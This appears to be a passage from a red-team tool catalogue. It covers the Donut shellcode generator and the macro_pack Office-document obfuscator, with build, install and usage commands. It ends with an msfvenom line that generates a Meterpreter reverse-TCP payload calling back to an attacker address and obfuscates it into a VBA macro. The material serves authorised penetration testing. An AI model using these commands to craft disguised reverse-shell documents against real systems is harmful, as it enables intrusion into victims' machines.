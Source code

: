 git clone http://github.com/thewover/donut.git
To generate the loader template, dynamic library donut.dll, the static library donut.lib and the generator donut.exe. Start an x64 Microsoft Visual Studio Developer Command Prompt, change to the directory where you cloned the Donut repository and enter the following:

nmake -f Makefile.msvc
To do the same, except using MinGW-64 on Windows or Linux, change to the directory where you cloned the Donut repository and enter the following:

make -f Makefile.mingw
Install: (Linux)

pip3 install donut-shellcode
Usage:

# Creating shellcode from an XSL file that pops up a calculator.
shellcode = donut.create(file=r"C:\\Tools\\Source\\Repos\\donut\\calc.xsl")

# Creating shellcode from an unmanaged DLL. Invokes DLLMain.
shellcode = donut.create(file=r"C:\Tools\Source\Repos\donut\payload\test\hello.dll")
For full usage information, see the donut GitHub Page.

See a recent blog post from The Wover for more info.

image

🔙Macro_pack
A tool used to automatize the obfuscation and generation of Office documents, VB scripts, shortcuts, and other formats for red teaming.

Install: (Binary)

Get the latest binary from https://github.com/sevagas/macro_pack/releases/
Download binary on PC with genuine Microsoft Office installed.
Open console, CD to binary dir and call the binary
Install: (Git)

git clone https://github.com/sevagas/macro_pack.git
cd macro_pack
pip3 install -r requirements.txt
Usage:

# Help Page
python3 macro_pack.py  --help

# List all supported file formats
macro_pack.exe --listformats

# Obfuscate the vba file generated by msfvenom and puts result in a new VBA file.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba
